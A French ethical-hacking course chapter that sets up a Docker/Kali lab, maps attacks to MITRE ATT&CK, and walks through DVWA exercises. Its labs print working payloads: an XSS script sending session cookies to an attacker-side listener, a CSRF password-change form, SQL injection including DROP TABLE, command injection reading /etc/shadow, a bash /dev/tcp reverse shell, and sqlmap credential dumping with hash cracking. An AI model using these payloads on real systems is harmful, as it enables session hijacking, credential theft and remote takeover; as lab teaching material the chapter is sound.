





# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités

---

## Objectifs pédagogiques

- Mettre en place l'intégralité de l'environnement de lab (Docker, Kali, outils)
- Comprendre le référentiel MITRE ATT&CK et savoir naviguer dans sa matrice
- Distinguer les profils d'attaquants et leurs motivations
- Cartographier les attaques courantes (phishing, DDoS, SQLi) aux techniques ATT&CK
- Prendre en main les outils fondamentaux : nmap, Metasploit, Wireshark
- Identifier et exploiter les failles web : XSS, CSRF, SQLi, command injection
- Lancer DVWA et réaliser un premier scan avec exploitation

---

# Partie 1 — Mise en place de l'environnement (1h30)

## A.1 Prérequis Kali — Vérification

Ouvrez un terminal sur votre machine Kali et exécutez les commandes suivantes. Chaque ligne doit retourner un numéro de version, pas d'erreur.

```bash
python3 --version        # Python 3.10 ou supérieur
pip --version            # pip 22 ou supérieur
docker --version         # Docker 24 ou supérieur
docker compose version   # Docker Compose v2
git --version            # Git 2.39 ou supérieur
nmap --version           # Nmap 7.94
msfconsole --version     # Metasploit 6.3
sqlmap --version         # sqlmap 1.7
gobuster --version       # Gobuster 3.6
which nc                 # netcat
curl --version           # curl 7.88
```

Si un outil manque, installez-le :

```bash
sudo apt update && sudo apt install -y docker.io docker-compose-v2 git nmap metasploit-framework sqlmap gobuster netcat-openbsd curl
sudo usermod -aG docker $USER
# Redémarrer la session pour que le groupe docker prenne effet
```

## A.2 Création de l'arborescence de travail

```bash
mkdir -p ~/cours-hacking/{jour-1,jour-2,jour-3,jour-4,jour-5,hors-serie}
mkdir -p ~/cours-hacking/jour-1/labs
mkdir -p ~/cours-hacking/jour-2/labs
mkdir -p ~/cours-hacking/jour-3/labs
mkdir -p ~/cours-hacking/jour-4/labs
mkdir -p ~/cours-hacking/jour-5/labs

# Cloner le dépôt du cours
cd ~/cours-hacking
git clone https://github.com/yugmerabtene/techniques-hacking-mdj.git repo
```

## A.3 Lancement de tous les conteneurs

```bash
cd ~/cours-hacking/repo
docker compose up -d
```



## A.4 Vérification de chaque vulnérabilité

**Checklist obligatoire. Cochez chaque case avant de passer à la Partie 2.**

### ☐ DVWA — Application Web Vulnérable (port 8080)

```bash
# Le serveur répond ?
curl -I http://localhost:8080/login.php
# → HTTP/1.1 200 OK

# Ouvrez dans Firefox
firefox http://localhost:8080
# Login : admin / password
# Puis allez en bas → DVWA Security → réglez sur "low" → Submit
```

### ☐ vsftpd 2.3.4 — FTP Vulnérable (port 21)

```bash
# Vérifier la bannière
echo "" | nc -w2 localhost 21
# → 220 (vsFTPd 2.3.4)
```

### ☐ Samba 3.0.20 — SMB Vulnérable (port 445)

```bash
nmap -sV -p 445 localhost -P0 | grep 445
# → 445/tcp open netbios-ssn Samba smbd 3.0.20
```

### ☐ Buffer Overflow (port 9001)

```bash
nc -z localhost 9001 && echo "OK" || echo "Non lancé"
# → OK
```

### ☐ WAF Target (port 8081)

```bash
# Requête normale → passe
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200

# SQLi brute → bloquée
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1 OR 1=1"
# → 403 (Forbidden — WAF actif)
```

### ☐ Secure Linux (port 2222)

```bash
nc -z localhost 2222 && echo "SSH accessible" || echo "Non lancé"
# → SSH accessible
```

### ☐ Forensic Victim (port 8082)

```bash
curl "http://localhost:8082/?cmd=id"
# → uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### ☐ Script de validation automatique

```bash
cd ~/cours-hacking/repo && bash tests/run_all.sh
# → ✓ Environnement prêt pour la formation !
```

---

# Partie 2 — Introduction au hacking éthique (4h30)

---

## Introduction

Toute démarche de sécurité — offensive comme défensive — commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il est indispensable de disposer d'un **langage commun** pour décrire les comportements adverses.

Ce chapitre introduit le référentiel **MITRE ATT&CK**, qui deviendra votre boussole tout au long de cette formation. Chaque attaque, chaque vulnérabilité, chaque technique sera systématiquement rattachée à une entrée de la matrice ATT&CK. C'est le standard industriel adopté par les SOC, les CERT et les pentesters du monde entier.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/) — The MITRE Corporation.

---

## 1. MITRE ATT&CK — Le référentiel universel

### Comprendre le concept

MITRE ATT&CK est une base de connaissances qui référence les **tactiques**, **techniques** et **procédures** (TTPs) utilisées par les groupes cybercriminels et les APTs (Advanced Persistent Threats).

- **Tactique** = l'objectif de l'attaquant : accès initial, escalade, exfiltration...
- **Technique** = la méthode concrète : phishing, buffer overflow, injection SQL...
- **Procédure** = l'implémentation spécifique d'un groupe d'attaquants



**Matrice simplifiée du Jour 1 :**

| Tactique (TA) | Techniques (T) | Exemple concret |
|---|---|---|
| TA0001 Reconnaissance | T1595 Active Scanning | nmap |
| TA0003 Initial Access | T1566 Phishing, T1190 Exploit Public-Facing App, T1189 Drive-by Compromise | Email piégé, SQLi, XSS |
| TA0002 Execution | T1059 Command & Scripting Interpreter | Reverse shell, command injection |

> **Sources :** [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/) — MITRE.

---

## 2. Types de hackers et panorama des attaques

### Profils d'attaquants



Chaque groupe APT documenté dans MITRE ATT&CK possède une fiche dédiée avec ses techniques favorites. Exemple : APT29 (Cozy Bear) utilise T1566 (Spearphishing), T1059 (Command Scripting), T1027 (Obfuscated Files).

### Panorama des attaques — Mapping ATT&CK

| Attaque | Technique ATT&CK | ID | Tactic | Impact |
|---|---|---|---|---|
| Phishing | Spearphishing Attachment | T1566.001 | Initial Access | Compromission de comptes |
| DDoS | Endpoint Denial of Service | T1499 | Impact | Indisponibilité de service |
| Injection SQL | Exploit Public-Facing Application | T1190 | Initial Access | Vol/exfiltration de données |
| XSS | Drive-by Compromise | T1189 | Initial Access | Vol de session, defacement |
| CSRF | Exploitation for Client Execution | T1203 | Execution | Actions non autorisées |

> **Sources :** [ATT&CK Techniques](https://attack.mitre.org/techniques/enterprise/) — MITRE.

---

## 3. Outils de l'attaquant

### nmap — Cartographie réseau → T1046 Network Service Scanning

nmap est l'outil de reconnaissance réseau par excellence. Il identifie les hôtes actifs, les ports ouverts et les versions de services.

```bash
nmap -sV <IP>         # Scan avec détection de version
nmap -F <IP>/24        # Scan rapide des 100 ports les plus courants
nmap -A <IP>           # Détection complète (OS, versions, scripts)
nmap --script vuln <IP> # Scan de vulnérabilités connuess
```

### Metasploit — Framework d'exploitation

Metasploit intègre des milliers d'exploits, de payloads et de modules auxiliaires. C'est l'outil central des phases TA0003 → TA0004 → TA0006 du cycle ATT&CK.

```bash
msfconsole              # Lancer la console
search <mot-clé>        # Rechercher un exploit
use <chemin/exploit>    # Sélectionner un exploit
set RHOSTS <IP>         # Configurer la cible
exploit                 # Lancer l'attaque
```

### Wireshark — Analyse de paquets → T1040 Network Sniffing

Filtres de capture essentiels :

```
http                      # Trafic HTTP uniquement
tcp.port == 80            # Port 80
ip.addr == 192.168.x.x    # Trafic lié à une IP
tcp.flags.syn == 1        # Paquets SYN
```

> **Sources :** [nmap Network Scanning](https://nmap.org/book/) — Gordon Lyon. [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/) — Offensive Security.

---

## 4. Vulnérabilités web — Mapping ATT&CK

### XSS (Cross-Site Scripting) → T1189 Drive-by Compromise

L'attaquant injecte du JavaScript malveillant exécuté dans le navigateur de la victime.



**Reflected XSS :** le payload est dans l'URL, reflété immédiatement.
**Stored XSS :** le payload est stocké en base et exécuté à chaque affichage.

```html
<!-- Payload de test -->
<script>alert('XSS')</script>

<!-- Payload de vol de cookie -->
<script>new Image().src='http://<KALI_IP>:8000/?c='+document.cookie</script>
```

**Mapping ATT&CK :** XSS → T1189 Drive-by Compromise → TA0001 Initial Access. Si le cookie est volé → T1539 Steal Web Session Cookie → TA0008 Credential Access.

### CSRF (Cross-Site Request Forgery) → T1203 Exploitation for Client Execution

Le CSRF force un utilisateur authentifié à exécuter une action sans son consentement.

```html
<!-- Page malveillante hébergée côté attaquant -->
<html><body>
  <form action="http://<TARGET>/change_password.php" method="POST">
    <input type="hidden" name="new_password" value="hacked">
    <input type="hidden" name="confirm_password" value="hacked">
  </form>
  <script>document.forms[0].submit();</script>
</body></html>
```

### Injection SQL → T1190 Exploit Public-Facing Application

L'injection consiste à insérer du code SQL dans une entrée utilisateur non filtrée.

```sql
-- Contournement d'authentification
admin' OR '1'='1' --

-- Extraction de données (UNION-based)
' UNION SELECT username, password FROM users --

-- Destruction de base (très dangereux)
'; DROP TABLE users; --
```



### Command Injection → T1059.004 Unix Shell

```bash
; ls -la /etc/passwd     # Exécute ls après la commande prévue
| whoami                  # Alternative avec pipe
&& cat /etc/shadow        # Chaîne avec AND
```

> **Sources :** [OWASP Top 10](https://owasp.org/www-project-top-ten/) — OWASP Foundation.

---

## Lab 1.1 — Scan et découverte de DVWA

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` (port 8080) |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Fichiers à créer** | `scan_dvwa.sh` |
| **Outils** | nmap, curl, Firefox |

### Prérequis avant de commencer

- [x] Tous les conteneurs lancés (`docker compose up -d`)
- [x] DVWA répond sur http://localhost:8080
- [x] Terminal ouvert dans `~/cours-hacking/jour-1/labs/`

### Étape 1 — Scan nmap du conteneur DVWA

```bash
cd ~/cours-hacking/jour-1/labs

# Scan complet du port exposé
nmap -sV -p 8080 localhost -P0 | tee nmap_dvwa.txt
```

**Résultat attendu :**

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.X (Debian)
```

### Étape 2 — Découverte des pages avec gobuster

```bash
gobuster dir -u http://localhost:8080 -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
```

**Résultat attendu (extrait) :**

```
/.hta                 (Status: 403)
/.htaccess            (Status: 403)
/.htpasswd            (Status: 403)
/config               (Status: 301)
/docs                 (Status: 301)
/external             (Status: 301)
/index.php            (Status: 302)
/login.php            (Status: 200)
/phpinfo.php          (Status: 200)
/vulnerabilities      (Status: 301)
```

### Étape 3 — Accès et configuration DVWA

```bash
# Ouvrir dans Firefox
firefox http://localhost:8080 &

# 1. Login : admin / password
# 2. Tout en bas : cliquer "DVWA Security"
# 3. Régler sur "low" → Submit
# 4. Le menu de gauche montre les vulnérabilités disponibles
```

### Étape 4 — Vérification des vulnérabilités présentes

Dans le menu gauche de DVWA, vous devez voir :

```
DVWA Menu
├── Brute Force
├── Command Injection    ← nous allons l'exploiter
├── CSRF                 ← nous allons l'exploiter
├── File Inclusion
├── File Upload
├── Insecure CAPTCHA
├── SQL Injection        ← nous allons l'exploiter
├── SQL Injection (Blind)
├── Weak Session IDs
├── XSS (DOM)
├── XSS (Reflected)      ← nous allons l'exploiter
├── XSS (Stored)         ← nous allons l'exploiter
└── CSP Bypass
```

### Checkpoints

- [ ] nmap trouve le port 8080 ouvert avec Apache
- [ ] gobuster trouve `/login.php`, `/vulnerabilities`, `/config`
- [ ] Connexion DVWA réussie (admin/password)
- [ ] Niveau de sécurité réglé sur **low**
- [ ] Les pages XSS, CSRF, SQLi, Command Injection sont accessibles

### Erreurs fréquentes

- **DVWA inaccessible** → `docker compose ps dvwa` ; si "down" → `docker compose up -d dvwa`
- **PHP erreurs** → le conteneur met ~30s à initialiser la DB. Attendre puis rafraîchir
- **gobuster rien trouvé** → `apt install gobuster` ; la wordlist est dans `/usr/share/wordlists/dirb/common.txt`

---

## Lab 1.2 — Exploitation XSS (Reflected & Stored)

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` (port 8080) |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Fichiers à créer** | `xss_payload.txt`, `steal_cookie.html` |
| **Technique ATT&CK** | T1189 Drive-by Compromise |

### Prérequis avant de commencer

- [x] DVWA connecté (admin/password), sécurité **low**
- [x] Côté Kali, un terminal prêt pour l'écouteur HTTP

### Étape 1 — XSS Reflété : popup de test

Dans DVWA → **XSS (Reflected)** :

```
Champ "What's your name?" : <script>alert('XSS fonctionnel')</script>
Cliquer "Submit"
```

**Checkpoint A :** Une popup JavaScript apparaît. La faille XSS reflétée est confirmée.

### Étape 2 — XSS Reflété : vol de cookie

Ouvrez un **deuxième terminal Kali** et lancez un écouteur HTTP :

```bash
cd ~/cours-hacking/jour-1/labs/
python3 -m http.server 8000
# Serving HTTP on 0.0.0.0 port 8000
```

Dans le premier terminal, préparez le payload :

```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

Remplacez `<KALI_IP>` par l'IP de votre Kali (trouvez-la avec `ip addr show eth0` ou `hostname -I`).

Collez ce payload dans le champ XSS Reflected de DVWA et soumettez.

**Checkpoint B :** Dans le terminal de l'écouteur HTTP, vous voyez apparaître :

```
<IP> - - [date] "GET /?cookie=PHPSESSID=abc123...;security=low HTTP/1.1" 200 -
```

Le cookie de session DVWA a été volé via XSS.

### Étape 3 — XSS Stocké : persistance

Dans DVWA → **XSS (Stored)** :

```
Champ "Name" : Attaquant
Champ "Message" : <script>alert('Stored XSS')</script>
Cliquer "Sign Guestbook"
```

**Checkpoint C :** La popup apparaît. Actualisez la page : la popup réapparaît. Le script est stocké dans la base de données et s'exécute à chaque visite. C'est la différence clé avec le XSS reflété.

### Nettoyage

Dans DVWA → **Setup / Reset DB** → cliquer "Create / Reset Database" pour effacer le XSS stocké.

---

## Lab 1.3 — Injection SQL avec sqlmap

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` (port 8080) |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Technique ATT&CK** | T1190 Exploit Public-Facing Application |

### Prérequis avant de commencer

- [x] DVWA connecté, sécurité **low**
- [x] Cookie PHPSESSID copié depuis Firefox (F12 → Storage → Cookies)

### Étape 1 — Test manuel de la SQLi

Dans DVWA → **SQL Injection** :

```
Champ "User ID" : 1' OR '1'='1' #
Cliquer "Submit"
```

**Checkpoint A :** Les 5 utilisateurs de la base apparaissent au lieu d'un seul.

### Étape 2 — Automatisation avec sqlmap

```bash
cd ~/cours-hacking/jour-1/labs/

# Remplacer XXXX par votre PHPSESSID (Depuis Firefox → F12 → Storage → Cookies)
COOKIE="PHPSESSID=XXXX;security=low"

# Étape 2a : Lister les bases de données
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" --dbs --batch | tee sqlmap_dbs.txt
```

**Sortie attendue :**

```
available databases [2]:
[*] dvwa
[*] information_schema
```

```bash
# Étape 2b : Lister les tables de la base dvwa
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" -D dvwa --tables --batch
```

```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

```bash
# Étape 2c : Extraire les colonnes de la table users
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" -D dvwa -T users --columns --batch
```

```bash
# Étape 2d : Dumper les mots de passe
sqlmap -u "http://localhost:8080/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="$COOKIE" -D dvwa -T users -C user,password --dump --batch
```

**Sortie attendue :**

```
Database: dvwa
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

**Checkpoint B :** 5 utilisateurs extraits avec leurs hashs MD5.

### Étape 3 — Craquer les hashs avec hashcat ou john

```bash
# Extraire les hashs dans un fichier
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt
echo "e99a18c428cb38d5f260853678922e03" >> hashes.txt
echo "8d3533d75ae2c3966d7e0d4fcc69216b" >> hashes.txt
echo "0d107d09f5bbe40cade3de5c71e9e9b7" >> hashes.txt

# Craquer avec john (format raw-md5)
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 2>/dev/null
john --show --format=raw-md5 hashes.txt
```

---

## Lab 1.4 — Command Injection + Reverse Shell

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` (port 8080) |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Technique ATT&CK** | T1059.004 Unix Shell → TA0002 Execution |

### Prérequis avant de commencer

- [x] DVWA connecté, sécurité **low**
- [x] Ouvrir un 2e terminal Kali pour l'écouteur netcat

### Étape 1 — Command injection basique

Dans DVWA → **Command Injection** :

```
Champ "Enter an IP address" : 127.0.0.1; ls /etc/
Cliquer "Submit"
```

**Checkpoint A :** Le résultat de `ping 127.0.0.1` apparaît, suivi de la liste des fichiers dans `/etc/`. La commande `ls /etc/` a bien été injectée.

Testez ces variantes :

```bash
127.0.0.1; whoami              # → www-data
127.0.0.1; cat /etc/passwd     # → liste des utilisateurs
127.0.0.1; id                  # → uid=33(www-data)
127.0.0.1; pwd                 # → /var/www/html/vulnerabilities/exec
```

### Étape 2 — Reverse shell

**Terminal 1 — Kali (écouteur) :**

```bash
nc -lvnp 4444
# Listening on 0.0.0.0 4444
```

**Terminal 2 — DVWA Command Injection :**

Dans le champ IP, injectez un reverse shell. Remplacez `<KALI_IP>` par l'IP de votre machine Kali :

```bash
; bash -c 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1'
```

**Checkpoint B :** Dans le terminal 1, vous obtenez un shell :

```
Connection received on <IP>
bash: cannot set terminal process group: Inappropriate ioctl for device
bash: no job control in this shell
www-data@<container_id>:/var/www/html/vulnerabilities/exec$
```

### Étape 3 — Post-exploitation dans le shell

```bash
whoami              # www-data
hostname            # ID du conteneur Docker
pwd                 # /var/www/html/vulnerabilities/exec
ls -la /var/www/    # Explorer le serveur web
cat /etc/passwd     # Voir les utilisateurs
```

### Nettoyage

```bash
# Dans le shell DVWA
exit

# Sur Kali, Ctrl+C pour fermer netcat
```

---

## Exercices

### Exercice 1 : Première couche ATT&CK Navigator

**Énoncé :** Ouvrez ATT&CK Navigator (https://mitre-attack.github.io/attack-navigator/) et créez une couche contenant les 5 techniques vues aujourd'hui. Exportez le JSON dans `~/cours-hacking/jour-1/attack_layer_j1.json`.

<details>
<summary><strong>Solution</strong></summary>

1. Aller sur https://mitre-attack.github.io/attack-navigator/
2. "Create New Layer" → "Enterprise ATT&CK v15"
3. Dans la barre de recherche, ajouter une à une :
   - `T1046` (Network Service Scanning) — couleur 🔵 bleue
   - `T1189` (Drive-by Compromise) — couleur 🔴 rouge
   - `T1190` (Exploit Public-Facing App) — couleur 🔴 rouge
   - `T1059.004` (Unix Shell) — couleur 🔴 rouge
   - `T1203` (Exploitation for Client Exec) — couleur 🟠 orange
4. "Download as JSON" → sauver dans `~/cours-hacking/jour-1/attack_layer_j1.json`
</details>

### Exercice 2 : Mapping d'attaque réelle — WannaCry

**Énoncé :** L'attaque WannaCry (2017) utilisait EternalBlue pour se propager et DoublePulsar comme backdoor. Trouvez les techniques ATT&CK correspondantes.

<details>
<summary><strong>Solution</strong></summary>

- **EternalBlue (CVE-2017-0144)** → **T1210 Exploitation of Remote Services**
  - Tactique : TA0008 Lateral Movement
  - Exploite SMBv1 sur port 445

- **DoublePulsar** → **T1505.003 Web Shell** ou **T1543.003 Windows Service**
  - Tactique : TA0003 Persistence
  - Backdoor kernel-level sur Windows

- **Chiffrement WannaCry** → **T1486 Data Encrypted for Impact**
  - Tactique : TA0014 Impact
  - Chiffre les fichiers, demande rançon
</details>

### Exercice 3 : Write-up du Lab DVWA

**Énoncé :** Rédigez un mini-rapport (20 lignes) décrivant les 4 vulnérabilités exploitées sur DVWA, avec pour chacune : type, technique ATT&CK, impact, remédiation.

<details>
<summary><strong>Solution</strong></summary>

```markdown
# Mini-Rapport DVWA — Jour 1

## Vulnérabilités identifiées

### 1. XSS Reflété
- **Type :** Cross-Site Scripting (Reflected)
- **ATT&CK :** T1189 Drive-by Compromise
- **Impact :** Vol de cookie de session, redirection malveillante
- **Remédiation :** htmlspecialchars(), Content-Security-Policy header

### 2. XSS Stocké
- **Type :** Cross-Site Scripting (Stored)
- **ATT&CK :** T1189 Drive-by Compromise
- **Impact :** Tous les visiteurs de la page infectés
- **Remédiation :** Échappement HTML à l'entrée ET à la sortie

### 3. Injection SQL
- **Type :** SQL Injection (Union-based)
- **ATT&CK :** T1190 Exploit Public-Facing Application
- **Impact :** Extraction complète de la base de données
- **Remédiation :** Requêtes préparées (PDO), validation stricte

### 4. Command Injection
- **Type :** OS Command Injection
- **ATT&CK :** T1059.004 Unix Shell
- **Impact :** Exécution de code arbitraire (reverse shell)
- **Remédiation :** escapeshellcmd(), liste blanche de commandes
```
</details>

---

## Points clés à retenir

- **MITRE ATT&CK** est votre référentiel : chaque attaque se mappe à une technique (ID Txxxx)
- Les 14 tactiques couvrent le cycle complet d'une cyberattaque
- Chaque vulnérabilité web a son entrée ATT&CK : XSS → T1189, SQLi → T1190, CSRF → T1203
- Les outils fondamentaux : nmap (T1046 scan), Metasploit (exploitation), Wireshark (T1040 sniffing)
- DVWA permet de tester les 4 familles de vulnérabilités web sur un seul conteneur
- L'environnement Docker garantit la reproductibilité des labs
- Le cookie de session volé via XSS = Credential Access (T1539) dans la kill chain
- sqlmap automatise l'extraction de données, mais il faut toujours comprendre la requête sous-jacente

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [ATT&CK for Enterprise — Full Matrix](https://attack.mitre.org/matrices/enterprise/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [OWASP Top 10 (2021)](https://owasp.org/www-project-top-ten/)
- [PayloadsAllTheThings — XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

---

*Chapitre suivant : [Jour 2 — Tests de pénétration et exploitation](./JOUR-02.md)*
*Hors-Série Agentic : [KillChainAgent — Outil d'attaque orchestré par agents](./HORS-SERIE-AGENTIC.md)*
